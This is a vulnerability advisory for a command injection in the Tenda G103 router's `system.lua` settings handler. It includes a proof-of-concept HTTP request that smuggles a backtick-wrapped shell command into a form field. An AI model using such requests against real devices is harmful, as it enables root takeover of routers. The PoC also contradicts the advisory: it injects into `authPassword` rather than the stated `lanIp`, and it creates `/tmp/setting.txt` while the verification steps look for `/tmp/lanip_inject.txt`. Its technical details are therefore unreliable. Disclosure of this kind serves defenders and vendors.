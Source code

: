 # Tenda G103 Command Injection Vulnerability in `lanIp` Parameter of `action_set_system_settings` (system.lua)

## Overview

A command injection vulnerability exists in the `action_set_system_settings` function of the `system.lua` file in Tenda G103 GPON optical network terminals. The vulnerability arises due to improper sanitization of the `lanIp` parameter, which is directly concatenated into system commands without validation. Authenticated attackers can exploit this to execute arbitrary system commands with root privileges, leading to full device compromise.

You can use FirmAE to simulate the environment:
![](./imgs/6.png)
![](./imgs/7.png)

## Details



*   **Vendor**: Tenda

*   **Product**: G103_V1.0.0.5

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: https://tenda.com.cn/material/show/2615

*   **Affected Component**: `system.lua` (LuCI controller)

*   **Affected Function**: `action_set_system_settings`

*   **Affected Parameter**: `lanIp`

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, sensitive data leakage, device configuration tampering, or complete takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_system_settings` function handles the `lanIp` parameter (used to configure the LAN interface IP address). The parameter is directly passed to system commands such as `ifconfig`, `fw_setenv`, and `uci` without sanitization or validation.

Key vulnerable code in `system.lua`:

![](./imgs/3.png)

Attackers can inject arbitrary commands by including shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or `&&`) in the `lanIp` parameter. These characters are not filtered, allowing the injected commands to be parsed and executed by the system shell.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/set_system_settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 40
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; isLogin=true; sysauth=ca14c877a3df6cdc740bf4bbef3f02c1; sysauth=; repeatTimes=0; isLogin=true
Connection: keep-alive
 
authPassword=1`touch$IFS/tmp/setting.txt`
```

#### Execution Steps:

1.  Send the above POST request with a valid `stok` (session token) and authentication cookies.

2.  Access the device (via CLI or another injected command) and verify the existence of `/tmp/lanip_inject.txt`.

#### Expected Result:

The file `/tmp/lanip_inject.txt` is created, confirming successful execution of the injected `touch` command.

![](./imgs/4.png)
![](./imgs/5.png)
